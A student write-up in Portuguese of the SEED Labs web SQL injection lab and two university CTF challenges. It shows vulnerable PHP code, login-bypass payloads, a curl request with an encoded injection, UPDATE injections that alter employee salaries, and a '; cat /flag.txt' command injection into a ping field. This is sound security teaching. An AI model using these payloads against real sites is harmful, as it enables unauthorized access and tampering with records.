



# SeedLabs: Web SQL Injection
## Task 1

De modo a aceder a entrada específica da Alice na tabela, usamos o seguinte comando SQL:

```sql
SELECT * from credential WHERE name="Alice";
```



## Task 2

Software de autenticação fornecido:
```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
// The following is Pseudo Code
if(id != NULL) {
    if(name==’admin’) {
        return All employees information;
    } else if (name !=NULL){
        return employee information;
    }
} else {
Authentication Fails;
}
```

### Task 2.1

Utilizamos os seguintes inputs de modo a obter acesso à conta administrativa.

username: `admin';#`

password: `foo`



### Task 2.2

Para explorar a vulnerabilidade de injeção SQL através do URL, devemos codificar os parâmetros.

`curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password=foo"`

### Task 2.3

Existe uma contra-medida que previne atacantes de correr duas instruções SQL neste ataque, tal como é referido no SEED book.

Tal deve-se a uma feature da função `query`, pertencente à extensão php mysqli utilizada, que bloqueia multiplas queries numa só string. Múltiplas queries numa só string apenas são aceites pela função `mysqli::multi_query`, que não é utilizada neste caso.

## Task 3

Software de autenticação fornecido:
```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET nickname=’$input_nickname’,email=’$input_email’,address=’$input_address’,Password=’$hashed_pwd’,PhoneNumber=’$input_phonenumber’WHERE ID=$id;";$conn->query($sql);
```

### Tasks 3.1 and 3.2

Como a página `Edit Profile` utiliza uma instrução SQL que contém a keyword `UPDATE`, é necessário utilizar a mesma de modo a alterar os campos de uma dada entrada da tabela, visto que na tarefa anterior mostramos que tal não é possível através da página de login.

Assim, apenas foi necessário escrever no campo `Nickname` o seguinte código, de modo a alterar o salário da Alice:

`', salary=9999999 WHERE name='Alice';#`

Para o Boby, apenas foi necessário alterar o campo `name` para o nome correspondente e colocar o salário merecido.

`', salary=1 WHERE name='Boby';#`



# CTF

**URL**: ctf-fsi.fe.up.pt

**Port**: 5003/5000

## Desafio 1

Através do script `index.php`, foi possível identificar uma vulnerabilidade que permite ao utilizador utilizar SQL Injection, com a finalidade de se autenticar com sucesso sem ter conhecimento das credenciais.

A vulnerabilidade encontra-se na linha 40:
```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Deste modo, como `.$password.` irá ser substituido pelo input do utilizador no campo `Password`, o utilizador poderá escrever, por exemplo, uma das seguintes passwords, que tornam a condição do `WHERE` verdadeira para um dado utilizador:

- `' OR '1'='1`
- `' OR 1=1; --`

Após introduzir uma das passwords acima apresentadas com o username `admin` é apresentada a flag.

## Desafio 2


Neste desafio, o website disponibiliza serviços dos quais o utilizador pode usufruir sem estar autenticado, tais como obter um relatório da conexão de rede e dar `ping` a um endereço escolhido pelo mesmo.

Após alguma reflexão, verficamos que a implementação deste último utiliza muito provavelmente uma das seguintes chamadas:

```php
exec("ping ".$target);
system("ping ".$target);
```

O intuito do programa é, por exemplo, executar o programa `ping 127.0.0.1`.

Deste modo, independentemente de qual destas chamadas foi usada, é possível utilizar um exploit que permite adicionar outros comandos para serem executados pela função, já que nos apercebemos que não é utilizada qualquer verificação de input.

Assim, escrevendo `; cat /flag.txt` no campo, assumimos que o programa irá interpretar como (por exemplo, com o `exec`):
```php
exec("ping ; cat /flag.txt");
```

Isto permite-nos ignorar completamente o comando ping e executar um outro comando que nos permite ler o conteúdo do ficheiro que contém a solução do desafio.
